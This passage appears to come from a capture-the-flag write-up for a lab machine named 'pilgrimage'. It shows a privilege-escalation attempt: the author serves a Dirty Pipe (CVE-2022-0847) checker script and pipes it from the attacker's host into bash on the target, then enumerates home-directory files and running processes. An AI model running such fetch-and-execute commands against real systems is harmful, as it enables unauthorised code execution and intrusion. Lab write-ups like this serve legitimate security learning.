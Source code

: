 ```bash
$ sudo git clone https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker
Cloning into 'CVE-2022-0847-dirty-pipe-checker'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 24 (delta 7), reused 4 (delta 2), pack-reused 0
Receiving objects: 100% (24/24), 5.29 KiB | 5.29 MiB/s, done.
Resolving deltas: 100% (7/7), done.

$ cd CVE-2022-0847-dirty-pipe-checker/
$ ls
dpipe.sh  README.md  test.sh
# give execute permissions on the scripts
$ sudo chmod +x dpipe.sh test.sh
# launch an HTTP server so the target can reach the scripts
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

First, we have to run the `dpipe.sh` script on the target for checking if the kernel is vulnerable:

```bash
emily@pilgrimage:/tmp$ curl http://10.10.14.15:8888/dpipe.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   840  100   840    0     0  15555      0 --:--:-- --:--:-- --:--:-- 15555
5 10 0
Vulnerable
```

It seems that the kernel is vulnerable! Unfortunately, after trying both exploits, none worked; we will need to find another way to escalate our privileges. Back to `emily`'s home directory, there is a hidden file called `.config`:

```bash
emily@pilgrimage:~$ ls -la
total 36
drwxr-xr-x 4 emily emily 4096 Jun  8  2023 .
drwxr-xr-x 3 root  root  4096 Jun  8  2023 ..
lrwxrwxrwx 1 emily emily    9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily  220 Feb 10  2023 .bash_logout
-rw-r--r-- 1 emily emily 3526 Feb 10  2023 .bashrc
drwxr-xr-x 3 emily emily 4096 Jun  8  2023 .config
-rw-r--r-- 1 emily emily   44 Jun  1  2023 .gitconfig
drwxr-xr-x 3 emily emily 4096 Jun  8  2023 .local
-rw-r--r-- 1 emily emily  807 Feb 10  2023 .profile
```

This contains the tool [`binwalk`](https://github.com/ReFirmLabs/binwalk) which strikes a bit odd. If we check the running processes we also see something that strikes out:

```bash
emily@pilgrimage:~$ ps -e
    PID TTY          TIME CMD
      1 ?        00:00:02 systemd
      2 ?        00:00:00 kthreadd
      3 ?        00:00:00 rcu_gp
      4 ?        00:00:00 rcu_par_gp
      6 ?        00:00:00 kworker/0:0H-events_highpri
      8 ?        00:00:00 mm_percpu_wq
      9 ?        00:00:00 rcu_tasks_rude_
     10 ?        00:00:00 rcu_tasks_trace
     11 ?        00:00:00 ksoftirqd/0
    749 ?        00:00:00 malwarescan.sh
    <SNIP>
```
